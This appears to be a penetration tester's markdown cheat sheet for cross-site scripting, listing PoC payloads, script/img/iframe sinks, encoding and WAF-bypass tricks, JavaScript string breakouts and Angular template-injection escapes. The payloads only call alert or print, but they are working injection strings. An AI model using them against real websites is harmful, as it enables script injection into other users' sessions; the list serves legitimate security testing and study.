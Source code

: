 # XSS
**Useful cheatsheet [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)**
**Comprehensive payload list [here](https://github.com/payloadbox/xss-payload-list)**
## POC
- `alert(document.location)`
- `print()`
## Unescaped Tags -> [Script Tags](3.%20Methodology/3.1%20Enumeration/XSS.md#Script%20Tags)
- `<b>STUFF</b>`
- `<b>STUFF`
### Encodings
**Worth double encoding**
- `%3cb%3eSTUFF%3c%2fb%3e`
- `&#x3c;b&#x3e;STUFF&#x3c;&#x2f;b&#x3e;`

## Quick Reflected Encoding Check
**Remember to double check in-browser - HTML-Encoding especially looks weird in Burp, but still works in browser**
`</>'"+().\;|& `
**Note: Ocassionally, some parsers normalize to unicode. Character checks can be bypassed via weird inputs (ie: [here](https://github.com/sambrow/ctf-writeups-2021/tree/master/bamboo-fox/ssrfrog))**

# Sinks
## Tag XSS
### Script
- `<script>print()</script>`
- ``<script>alert`1`</script>``
- `<SrCiPt>print()</SCriPT>`
### Img
- `<img src="" onerror="print()" />`
- ``<img src=1 onerror=alert`1`>``
- `<svg onload="alert()" />`
### Iframe
- `<iframe onload="alert()" />`
- `<iframe onreadystatechange="alert()" />`
#### Manipulating Iframe
- `this.contentWindow`

## Eval
- `"-print()"`
- `";print()"`

## Href
- `javascript:alert()`

## String Templates
- `` `${alert()}` ``

# Bypassing WAF
**Brute force allowed tags/attributes**

**Remember attributes may be blocked only on specific tags - Check all combinations**

**Remember to use Iframes where necessary**
## Neat Tricks
- Focus on element with ID (Chrome/IE/Safari) -> `<URL>#<ID>`
- Passing parameters to error functions -> `onerror=alert;throw 1`

# Javascript Concatenation
**Check if `\` is not encoded - Can be used to bypass escaped quotes**
- `'<BLAH>'+alert()+''`
- `'<BLAH>'-alert()-''`
- `'<BLAH>';alert()//`

# Angular XSS
**Identify page runs Angular first. Wappalyzer works well**
**Head of page will point to Angular source**
**Note: Cannot use `window`, `document`, or `__proto__`**
## ng-app
- `{{constructor.constructor('alert()')()}}`
- `{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}`

